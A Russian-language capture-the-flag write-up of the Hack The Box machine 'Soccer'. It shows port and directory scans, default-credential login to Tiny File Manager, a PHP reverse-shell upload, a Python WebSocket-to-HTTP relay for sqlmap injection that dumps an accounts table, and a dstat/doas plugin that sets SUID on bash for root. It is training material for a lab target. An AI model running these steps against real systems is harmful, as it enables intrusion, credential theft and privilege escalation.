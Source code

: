 # Soccer

:white_check_mark:  [**Tiny_File_Manager**](#Tiny_File_Manager)

:white_check_mark:  [**WebSocket_SQL_Injection**](#WebSocket_SQL_Injection)

:white_check_mark:  [**Sqlmap_database_dump**](#Sqlmap_database_dump)

:white_check_mark:  [**Doas(privesc)**](#Doas(privesc))

:white_check_mark:  [**Dstat(privesc)**](#Dstat(privesc))

___

## Port scan
Сканируем ip командами:
```
nmap -Pn -p- soccer.htb

nmap -sC -sC -p 22,80,9091 soccer.htb
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http
|_http-title: Soccer - Index 
9091/tcp open  xmltec-xmlmail
```

## Web Page

Главная страница **soccer.htb**:

![](../assets/Soccer/1.png)

Попробуем найти директории дааного сайта:
```
gobuster dir -u http://soccer.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 100
```

```
/tiny     (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
```

![](../assets/Soccer/2.png)

<a name="Tiny_File_Manager"></a>

## Tiny File Manager

Перейдя по адресу **soccer.htb/tiny**, мы попадаем на страницу логина к **Tiny File Manager**.

![](../assets/Soccer/3.png)

Попробовав найти эксплоиты к данному файловому менеджеру, мы можем наткнуться на данный [эксплоит](https://www.exploit-db.com/exploits/50828).

Исследовав его код, мы можем найти стандартные данные от файлового менеджера.

![](../assets/Soccer/4.png)

Попробуем использовать их, чтобы войти в систему.

![](../assets/Soccer/5.png)

Вход был выполнен успешно.

В данном мменю у нас есть возможность загружать свои файлы.

![](../assets/Soccer/6.png)

Загрузим php reverse shell.

![](../assets/Soccer/7.png)

Запускаем слушатель и открываем только что загруженный файл.

```
http://soccer.htb/tiny/uploads/php-reverse-shell.php
```

Получаем обратную оболочку.

![](../assets/Soccer/8.png)

## Subdomain soc-player.soccer.htb

Стабилизируем оболочку и закидываем на машину linpeas. Из вывода linpeas, мы можем выяснить, что существует поддомен **soc-player.soccer.htb**.

![](../assets/Soccer/9.png)

Добавим данный поддомен в /etc/hosts и перейдем на сайт.

![](../assets/Soccer/10.png)

Теперь в левом верхнем углу мы можем заметить расширенный функционал данного сайта. Зарегистрируемся на сайте.

![](../assets/Soccer/11.png)

<a name="WebSocket_SQL_Injection"></a>

## WebSocket SQL Injection

Зарегистрировавшись, перейдем в меню **Tickets**.

![](../assets/Soccer/12.png)

В данное поле мы можем вводить id ticket-a. Скорее всего, данная страница уязвима к SQL Injection. Просмотрим код страницы.

В коде страницы мы можем обнаружить, что сайт использует WebSocket, а не http, чтобы обмениваться данными.

![](../assets/Soccer/13.png)

Данный [сайт](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) описывает то, как можно применить SQL Injection к WebSocket.

Запишем скрипт на машину. Код скрипта:

```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

В данном скрипте изменяются ws_server и data на требуемые.

Запускаем скрипт.

![](../assets/Soccer/14.png)

<a name="Sqlmap_database_dump"></a>

Теперь мы можем спокойно пользоваться sqlmap. Для этого Сдампим базы данных.

```
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

![](../assets/Soccer/15.png)

```
sqlmap -u http://localhost:8081/?id=1 -D soccer_db --tables
```

![](../assets/Soccer/16.png)

```
sqlmap -u http://localhost:8081/?id=1 -D soccer_db -T accounts --dump
```

![](../assets/Soccer/17.png)

Получим данные пользователя, подключимся по ssh.

<a name="Doas(privesc)"></a>

<a name="Dstat(privesc)"></a>

## Privesc

Снова используем скрипт linpeas. Из вывода скрипта, мы можем заметить наиболее вероятный вектор атаки на doas и dstat.

![](../assets/Soccer/18.png)

_Doas - альтернатива sudo_


Для повышения привилегий, мы можем использовать информацию с данного [сайта](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-dstat-privilege-escalation/)

Используем следующие команды для повышения привилегий:

```
cd /tmp
nano dstat_exploit.py
```

Код dstat_exploit.py:

```
import os

os.system('chmod +s /usr/bin/bash')
```

```
dstat --list | grep exploit

doas -u root /usr/bin/dstat --exploit
```

Мы получили root.

![](../assets/Soccer/19.png)
